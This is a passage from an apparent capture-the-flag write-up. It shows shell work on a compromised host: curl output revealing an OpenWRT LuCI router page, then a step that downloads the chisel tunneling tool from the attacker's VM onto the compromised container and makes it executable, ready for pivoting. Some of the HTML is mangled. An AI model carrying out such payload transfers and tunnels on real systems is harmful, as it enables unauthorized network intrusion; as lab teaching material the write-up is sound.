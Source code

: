                             @media (prefers-color-scheme: dark) {
                                    body { background: black; }
                                    a { color: white; }
                            }
                    </style>
            </head>
            <body>
                    <a href="cgi-bin/luci/">LuCI - Lua Configuration Interface</a>
            </body>
    <.md>
    root@attica01:~# curl https://192.168.1.1 -k
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE.md PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/.md11/DTD/.md11.dtd">
    .md xmlns="http://www.w3.org/1999/.md">
            <head>
                    <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
                    <meta http-equiv="Pragma" content="no-cache" />
                    <meta http-equiv="Expires" content="0" />
                    <meta http-equiv="refresh" content="0; URL=cgi-bin/luci/" />
                    <style type="text/css">
                            body { background: white; font-family: arial, helvetica, sans-serif; }
                            a { color: black; }

                            @media (prefers-color-scheme: dark) {
                                    body { background: black; }
                                    a { color: white; }
                            }
                    </style>
            </head>
            <body>
                    <a href="cgi-bin/luci/">LuCI - Lua Configuration Interface</a>
            </body>
    <.md>


There's a reference to "LuCI", which is related to WRT:

![](/img/image-20240726133914461.png)

It looks like the access point (AP) is an OpenWRT instance.

#### Create Tunnel

I'll grab a copy of `chisel` from it's [release
page](https://github.com/jpillora/chisel/releases) and upload it to the
container using a Python webserver on my VM:



    root@attica01:~# curl 10.10.14.6/chisel_1.9.1_linux_amd64 -o c  
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 8452k  100 8452k    0     0  7391k      0  0:00:01  0:00:01 --:--:-- 7394k
    root@attica01:~# chmod +x c
